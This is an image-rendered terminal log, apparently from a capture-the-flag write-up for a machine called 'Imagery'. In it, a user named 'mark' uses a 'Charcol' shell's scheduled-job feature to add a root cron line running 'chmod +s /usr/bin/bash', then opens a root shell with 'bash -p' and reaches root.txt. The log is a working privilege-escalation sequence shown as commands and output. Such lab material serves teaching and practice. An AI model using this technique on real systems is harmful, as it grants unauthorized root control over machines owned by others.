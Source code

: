 ```bash

[2025-10-04 06:57:34] [INFO] Entering Charcol interactive shell. Type 'help' for commands, 'exit' to quit.
<--command "chmod +s /usr/bin/bash" --name "GetRoot"
[2025-10-04 06:57:52] [INFO] System password verification required for this operation.
Enter system password for user 'mark' to confirm: 

[2025-10-04 06:58:11] [INFO] System password verified successfully.
[2025-10-04 06:58:11] [INFO] Auto job 'GetRoot' (ID: 3267c1d6-34c0-4c5d-8dca-c873f0cd1564) added successfully. The job will run according to schedule.
[2025-10-04 06:58:11] [INFO] Cron line added: * * * * * CHARCOL_NON_INTERACTIVE=true chmod +s /usr/bin/bash
charcol> exit
[2025-10-04 06:58:49] [INFO] Exiting Charcol shell.
mark@Imagery:~$ id
uid=1002(mark) gid=1002(mark) groups=1002(mark)
mark@Imagery:~$ /usr/bin/bash -p
bash-5.2# cd /
bash-5.2# ls
bin   cdrom  etc   lib    lost+found  mnt  proc  run   snap  sys  usr
boot  dev    home  lib64  media       opt  root  sbin  srv   tmp  var
bash-5.2# cd /root
bash-5.2# wc -c root.txt
33 root.txt
```




